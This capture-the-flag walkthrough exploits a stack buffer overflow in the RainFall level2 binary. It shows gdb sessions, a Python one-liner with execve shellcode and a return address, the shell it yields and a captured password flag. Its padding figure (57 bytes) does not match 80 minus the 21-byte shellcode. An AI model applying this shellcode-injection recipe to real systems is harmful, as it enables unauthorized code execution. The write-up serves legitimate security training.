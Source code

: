 # Level 02 Walkthrough

## Binary analysis

The binary is vulnerable to a classic buffer overflow. We need to inject shellcode and overwrite the return address to jump to a writable memory location (e.g., .bss section).

## Exploitation

Find the offset to EIP (80 bytes) with a cyclic pattern.
```
level2@RainFall:~$ gdb -q ./level2 
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) r
Starting program: /home/user/level2/level2 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb) 
```

Find a writable address to jump to (e.g., using gdb or ltrace on strdup).

```
level2@RainFall:~$ gdb -q ./level2 
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) b *0x0804853e
Breakpoint 1 at 0x804853e
(gdb) r
Starting program: /home/user/level2/level2 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Breakpoint 1, 0x0804853e in p ()
(gdb) x/s $eax
0x804a008:	 "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"
```

Generate a payload with shellcode, padding (offset - len(shellcode) = 57 bytes), and the target address.

## Commands used

```
(python -c 'shellcode = b"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"; print(shellcode + b"A" * (80 - len(shellcode)) + b"\x08\x04\xa0\x08"[::-1])'; cat -) | ./level2 
```

## Result

After running the exploit, we get a shell as level3 and can read the password:

```
X�Rh//shh/bin��1�̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
